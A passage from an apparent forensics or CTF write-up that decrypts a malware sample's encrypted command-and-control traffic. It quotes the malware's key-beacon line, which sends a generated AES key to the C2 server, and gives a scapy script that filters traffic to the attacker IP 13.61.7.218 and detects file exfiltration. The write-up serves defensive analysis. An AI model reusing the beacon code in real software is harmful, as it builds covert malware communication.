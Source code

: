 To continue the investigation further, the traffic has to be decrypted.

Inspecting the captured network, it is evident that the malware has successfully comunicated to the Command & Control Server.

![](assets/malicious_traffic.png)

Since the source code is known, it is possible to "reverse-engineer" the encryption mechanism and decrypt the traffic.

As shown from the source code, it is possible to obtain the AES key by finding the packet including the `<SEPARATOR>` string.
```python
k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))
					client.send(f"{user}{SEPARATOR}{k}".encode())
```
The malware generates a random 16-byte AES key and sends it along with the SEPARATOR string back to the Command and Control Server.

The steps for decrypting the traffic are:

1. Extract the AES key from the initial beacon.
2. Decrypt the commands and responses exchanged between the victim and attacker.
3. Reconstruct any exfiltrated file that was sent back to the attacker.

To automate this procedure the following script can be created.

* Loading the PCAP

The script uses rdpcap() from scapy to load all packets from the specified file.
It filters only TCP/IP packets that go to or come from 13.61.7.218 (the attacker’s IP).

```python
for packet in packets:
        if packet.haslayer(IP) and packet.haslayer(TCP):
            if packet[IP].src == ATTACKER_IP or packet[IP].dst == ATTACKER_IP:
                if packet[TCP].payload:
                    encrypted_payload = bytes(packet[TCP].payload)
                    decrypted_text = decrypt_message(encrypted_payload, extracted_key)

                    try:
                        text = decrypted_text.decode(errors="ignore").strip()

                        # Detect command executions
                        if text:
                            decrypted_messages.append((packet.time, text))
                            print(f"[{packet.time}] {text}")

                        # Detect the `get_file` command
                        if text == "get_file":
                            get_file_issued = True
                            continue

                        # After `get_file` command, expect filename
                        if get_file_issued and "\\" in text:
                            filename = os.path.basename(text)
                            print(f"[+] File transfer detected: {filename}")
```
